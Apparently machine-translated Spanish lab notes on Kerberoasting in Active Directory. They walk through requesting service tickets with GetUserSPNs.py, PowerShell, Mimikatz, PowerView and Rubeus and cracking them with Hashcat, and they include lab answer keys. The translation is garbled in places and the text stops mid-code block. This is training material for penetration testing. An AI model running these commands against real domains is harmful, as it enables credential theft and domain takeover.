# Linux


---

Kerberoasting es una técnica de escalada lateral de movimiento/privilegioge en entornos de Active Directory. Este ataque apunta a las cuentas [de Nombres Principales de Servicio (SPN).](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) Los SPN son identificadores únicos que Kerberos utiliza para mapear una instancia de servicio a una cuenta de servicio en cuyo contexto el servicio está funcionando. Las cuentas de dominio se utilizan a menudo para ejecutar servicios para superar las limitaciones de autenticación de la red de cuentas incorporadas, tales como `NT AUTHORITY\LOCAL SERVICE`. Cualquier usuario de dominio puede solicitar un billete de Kerberos para cualquier cuenta de servicio en el mismo dominio. Esto también es posible a través de los fideicomisos forestales si se permite la autenticación a través de la frontera de la confianza. Todo lo que necesita para realizar un ataque de Kerberoasting es la contraseña de texto claro de una cuenta (o hash NTLM), una shell en el contexto de una cuenta de usuario de dominios, o el acceso a nivel SYSTEM en un host unido a dominio.

## Kerberoasting - Realizando el ataque

Dependiendo de su posición en una red, este ataque se puede realizar de múltiples maneras:

- De un host Linux no de dominio unido usando credenciales válidas de usuario de dominio.
- De un host Linux unido a dominio como raíz después de recuperar el archivo keytab.
- De un host de Windows unido a dominio autenticado como usuario de dominio.
- De un host de Windows unido a dominio con una shell en el contexto de una cuenta de dominio.
- Como SYSTEM en un host de Windows unido a dominio.
- De un host de Windows no-domain se unió usando [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

Varias herramientas se pueden utilizar para realizar el ataque:

- Impackets [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) de un anfitrión de Linux no-domain se unió a Linux.
- Una combinación de la binaria de Windows setspn.exe integrada, PowerShell y Mimikatz.
- Desde Windows, utilizando herramientas como PowerView, [Rubeus](https://github.com/GhostPack/Rubeus) y otros scripts de PowerShell.

Obtener un billete TGS vía Kerberoasting no le garantiza un conjunto de credenciales válidas, y el billete debe seguir siendo `cracked`offline con una herramienta como Hashcat para obtener la contraseña de texto claro. Los tickets TGS tardan más en romperse que otros formatos como los hashs NTLM, tan a menudo, a menos que se establezca una contraseña débil, puede ser difícil o imposible obtener el texto claro usando una plataforma de agrietamiento estándar.

Podemos empezar con solo reunir una lista de SPNs en el dominio. Para ello, necesitaremos un conjunto de credenciales de dominio válidas y la dirección IP de un controlador de dominio. Podemos autenticarnos al controlador de dominio con una contraseña de texto claro, hash de contraseña NT, o incluso un billete de Kerberos. Para nuestros propósitos, usaremos una contraseña. Introducir el comando de abajo generará un indicador de credencial y luego una lista bien formateada de todas las cuentas de SPN. A partir de la salida de abajo, podemos ver que varias cuentas son miembros del grupo Domain Admins. Si podemos recuperar y descifrar uno de estos tickets, podría llevar a un compromiso de dominio. Siempre vale la pena investigar la membresía de grupo de todas las cuentas porque podemos encontrar una cuenta con un ticket fácil de rasgar que pueda ayudarnos a avanzar nuestro objetivo de movernos lateralmente/verso en el dominio objetivo.

#### Listado de cuentas de SPN con GetUserSPNs.py


```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

Ahora podemos sacar todos los boletos TGS para el procesamiento fuera de línea usando el `-request`- bandera. Los tickets TGS serán salida en un formato que se puede proporcionar fácilmente a Hashcat o John the Ripper para intentos de descifrado de contraseña fuera de línea.

#### Solicitando todas las entradas TGS

```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

#### Solicitar un ticket único TGS

```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

Aquí hemos escrito el ticket TGS para el `sqldev` usuario en un archivo nombrado `sqldev_tgs`. Ahora podemos intentar crackear el ticket fuera de línea usando el modo hash Hashcat `13100`.

```shell
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

Hemos roto con éxito la contraseña del usuario como `database!`. Como último paso, podemos confirmar nuestro acceso y ver que de hecho tenemos derechos de Dominio Dominio ya que podemos autenticarnos al objetivo de DC en el dominio INLANEFREIGHT.LOCAL. Desde aquí, podríamos realizar post-explotación y continuar enumerando el dominio para otras vías de compromiso y otros defectos y errores notables.

#### Pruebas de Autenticación contra un controlador de dominio

```shell
nxc smb 172.16.5.5 -u sqldev -p database!
```


---

#### Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.







Respuesta: `!SapperFi2`

#### What powerful local group on the Domain Controller is the SAPService user a member of?



Respuesta: `Account Operators`


---

# Windows

Para empezar por este camino, exploraremos la ruta manual y luego nos moveremos hacia herramientas más automatizadas. Comencemos con el binario de [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\)) incorporado para enumerar SPNs en el dominio.

#### Enumeración de SPN con setspn.exe

```cmd
setspn.exe -Q */*
```

Notaremos muchos SPN diferentes devueltos para los diversos anfitriones en el dominio. Nos centraremos en `user accounts` e ignorar las cuentas de equipo devueltas por la herramienta. A continuación, usando PowerShell, podemos solicitar entradas TGS para una cuenta en la shell de arriba y cargarlas en la memoria. Una vez que se cargan en la memoria, podemos extraerlos usando `Mimikatz`. Intentemos apuntar a un solo usuario:

#### Apuntar a un usuario único

```powershell
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

Antes de seguir adelante, vamos a desglosar los comandos de arriba para ver lo que estamos haciendo (que es esencialmente lo que se utiliza por [Rubeus](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1) al usar el método de Kerberoasting predeterminado):

- El [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet se utiliza para añadir un . Clase marco de NET a nuestra sesión de PowerShell, que luego se puede instantizar como cualquier . Objeto marco de NET
- El `-AssemblyName`el parámetro nos permite especificar un montaje que contiene tipos que nos interesan usar
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) es un espacio de nombres que contiene diferentes clases para los servicios de token de seguridad de edificios
- Usaremos la línea cmlet [de Nuevo Objeto](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) para crear una instancia de un. Objeto NET Framework
- Usaremos el [Sistema.IdentidadModelo.](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8)Sodio de nombres de [los sencilles](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) con la clase [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) para crear un fichaje de seguridad y pasar el nombre de SPN a la clase para solicitar un billete Kerberos TGS para la cuenta de destino en nuestra sesión de sesión de inicio de sesión de sesión de inicio de sesión actual

También podemos optar por recuperar todas las entradas utilizando el mismo método, pero esto también tirará de todas las cuentas de ordenador, por lo que no es óptimo.

#### Recuperación de todas las entradas Usando setspn.exe

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

El comando anterior combina el comando anterior con `setspn.exe` para solicitar entradas para todas las cuentas con SPNs.

Ahora que los tickets están cargados, podemos usar `Mimikatz` para extraer el ticket de `memory`.

## Extrayendo entradas de memoria con Mimikatz

```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
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
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```


Si no especificamos la `base64 /out:true`, Mimikatz extraerá los tickets y los escribirá a formato `.kirbi`. Dependiendo de nuestra posición en la red y si podemos mover fácilmente archivos a nuestro host de ataque, esto puede ser más fácil cuando vamos a descifrar los tickets. Tomemos el ticket en base64 de arriba y preparémoslo para craquear.

Eliminar nuevas líneas y espacios blancos ya que la salida está envuelta en la columna, y lo necesitamos todo en una línea para el siguiente paso.

```shell
echo "<base64 blob>" |  tr -d \\n 
```

Podemos colocar la línea única de salida anterior en un archivo y convertirlo de nuevo en un `.kirbi`  con el `base64` .

#### Colocando la salida en un archivo como .kirbi

```shell
cat encoded_file | base64 -d > sqldev.kirbi
```

A continuación, podemos utilizar [esta](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) versión de la `kirbi2john.py`herramienta para extraer el billete Kerberos del archivo TGS.

#### Extrayendo el billete Kerberos usando kirbi2john.py

```shell
kirbi2john.py sqldev.kirbi
```

Esto creará un archivo llamado `crack_file`. Entonces debemos modificar un poco el archivo para poder usar Hashcat contra el hash.

#### Creando crackfile para Hashcat

```shell
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Ahora podemos comprobar y confirmar que tenemos un hash que se puede alimentar con Hashcat.

Podemos luego ejecutar el ticket a través de Hashcat de nuevo y conseguir la contraseña de texto claro `database!`.

#### Aplastando el Hashcat

```shell
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

Si decidimos omitir la salida base64 con Mimikatz y escriba `mimikatz # kerberos::list /export`, el archivo .kirbi (o archivos) se escribirá en disco. En este caso, podemos descargar el archivo (s) y ejecutar `kirbi2john.py`contra ellos directamente, saltándose el paso de decodificación de base64.

Ahora que hemos visto la forma más antigua y manual de realizar Kerberoasting de una máquina de Windows y el procesamiento fuera de línea, veamos algunas maneras más rápidas. La mayoría de las evaluaciones están programadas por el tiempo, y a menudo necesitamos trabajar lo más rápido y eficientemente posible, por lo que el método anterior probablemente no será nuestro destino cada vez. Dicho esto, puede ser útil para nosotros tener otros trucos en la manga y metodologías en caso de que nuestras herramientas automatizadas fallen o estén bloqueadas.

---

## Ruta automatizada / Con base en herramientas

A continuación, cubriremos dos maneras mucho más rápidas de realizar Kerberoasting de un anfitrión de Windows. Primero, usemos [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) para extraer las entradas TGS y convertirlas en formato Hashcat. Podemos empezar enumerando las cuentas del SPN.

#### Utilizando PowerView para extraer entradas TGS

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

Desde aquí, podríamos dirigirnos a un usuario específico y recuperar el ticket TGS en formato Hashcat.

#### Usando PowerView para apuntar a un usuario específico

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


Finalmente, podemos exportar todos los tickets a un archivo CSV para el procesamiento fuera de línea.

#### Exportar todas las entradas a un archivo CSV

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Viendo el Contenido del . Archivo CSV

```powershell-session
cat .\ilfreight_tgs.csv

"SamAccountName","DistinguishedName","ServicePrincipalName","TicketByteHexStream","Hash"
"adfs","CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL","adfsconnect/azure01.inlanefreight.local",,"$krb5tgs$23$*adfs$INLANEFREIGHT.LOCAL$adfsconnect/azure01.inlanefreight.local*$59C086008BBE7EAE4E483506632F6EF8$622D9E1DBCB1FF2183482478B5559905E0CCBDEA2B52A5D9F510048481F2A3A4D2CC47345283A9E71D65E1573DCF6F2380A6FFF470722B5DEE704C51FF3A3C2CDB2945CA56F7763E117F04F26CA71EEACED25730FDCB06297ED4076C9CE1A1DBFE961DCE13C2D6455339D0D90983895D882CFA21656E41C3DDDC4951D1031EC8173BEEF9532337135A4CF70AE08F0FB34B6C1E3104F35D9B84E7DF7AC72F514BE2B346954C7F8C0748E46A28CCE765AF31628D3522A1E90FA187A124CA9D5F911318752082FF525B0BE1401FBA745E1

<SNIP>
```


También podemos usar [Rubeus](https://github.com/GhostPack/Rubeus) de GhostPack para realizar Kerberoasting aún más rápido y fácil. Rubeus nos ofrece una variedad de opciones para realizar Kerberoasting.

```powershell
.\Rubeus.exe
```

Como podemos ver al desplazarse en el menú de ayuda de Rubeus, la herramienta tiene un gran número de opciones para interactuar con Kerberos, la mayoría de las cuales están fuera del ámbito de este módulo y se cubrirán en profundidad en módulos posteriores sobre ataques Kerberos avanzados. Vale la pena desplazarse a través del menú, familiarizándose con las opciones y leyendo sobre las otras tareas posibles. Algunas opciones incluyen:

- Realizando grareanos y salidas de hachís en un archivo
- Uso de credenciales alternativas
- Realiza Kerberoasting combinado con un ataque de pases al billete
- Realizan Kerberoasting "opsec" para filtrar cuentas habilitadas para AES
- Solicitar entradas para contraseñas de cuentas establecidas entre un rango de fechas específico
- Colocar un límite en el número de billetes solicitados
- Realizan AES Kerberoasting


Podemos usar primero Rubeus para recoger algunas estadísticas. A partir de la siguiente salida, podemos ver que hay nueve usuarios de Kerberoastable, siete de los cuales admiten cifrado RC4 para las solicitudes de entradas y dos de los cuales admiten AES 128/256. Más sobre los tipos de cifrado más tarde. También vemos que las nueve cuentas tenían su contraseña establecida este año (2022 en el momento de escribir este artículo). Si vimos alguna cuenta de SPN con sus contraseñas establecida hace 5 o más años, podrían ser objetivos prometedores ya que podrían tener una contraseña débil que se estableció y nunca cambió cuando la organización estaba menos madura.

#### Usando la flag /stats

```powershell
.\Rubeus.exe kerberoast /stats
```

Usemos Rubeus para solicitar entradas para cuentas con el `admincount = 1`. Estos serían probablemente objetivos de alto valor y vale nuestro objetivo inicial para los esfuerzos de crack offline con Hashcat. Asegúrese de especificar el `/nowrap`bandera para que el hachís pueda ser copiado más fácilmente para la grieta fuera de línea usando Hashcat. Según la documentación, la bandera ""/nowrap" impide que cualquier mancha de entrada base64 sea envuelta en columna para cualquier función"; por lo tanto, no tendremos que preocuparnos por recortar el espacio en blanco o nuevas líneas antes de romper con Hashcat.

#### Usando la Bandera /nowrap

```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```


## Una nota sobre los tipos de cifrado

Herramientas de Kerberoasting suelen solicitar `RC4 encryption` al realizar el ataque y iniciar las solicitudes TGS-REQ. Esto se debe a que RC4 es [más débil](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) y más fácil desconectar usando herramientas como Hashcat que otros algoritmos de cifrado como AES-128 y AES-256. Cuando se realice Kerberoasting en la mayoría de los ambientes, recuperaremos hashes que comienzan con `$krb5tgs$23$*`, un ticket RC4 (tipo 23). A veces recibiremos un hash o hash cifrado AES-256 (tipo 18) que comienza con `$krb5tgs$18$*`. Si bien es posible descifrar los ticket TGS AES-128 (tipo 17) y AES-256 (tipo 18) utilizando [Hashcat](https://github.com/hashcat/hashcat/pull/1955), normalmente llevará mucho más tiempo que crackear un ticket cifrado RC4 (tipo 23, pero todavía posible especialmente si se elige una contraseña débil. 

Empecemos por crear una cuenta de SPN nombrada `testspn` y el uso de Rubeus a Kerberoast este usuario específico para probar esto. Como podemos ver, recibimos el ticket TGS RC4 (tipo 23) cifrado.

```powershell
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

Comprobando con PowerView, podemos ver que el `msDS-SupportedEncryptionTypes`atributo está configurado a `0`. El gráfico [aquí](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) nos dice que un valor decimal de `0`significa que un tipo de cifrado específico no está definido y configurado por defecto de `RC4_HMAC_MD5`.

```powershell
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

A continuación, vamos a romper este ticket usando Hashcat y apuntemos cuánto tiempo tomó. La cuenta se establece con una contraseña débil encontrada en el `rockyou.txt` Lista de palabras para nuestros propósitos. Corriendo esto a través de Hashcat, vemos que tomó cuatro segundos tomar un crack en una CPU, y por lo tanto se rompería casi al instante en una poderosa plataforma de agrietamiento de la GPU y probablemente incluso en una sola GPU.

#### Agarrar el ticket con Hashcat & rockyou.txt



Supongamos que nuestro cliente ha establecido cuentas de SPN para apoyar el cifrado AES 128/256.



Si comprobamos esto con PowerView, veremos que el `msDS-SupportedEncryptionTypes attribute`está listo para `24`, lo que significa que los tipos de cifrado AES 128/256 son los únicos soportados.

#### Comprobación de los tipos de cifrado compatibles

```powershell
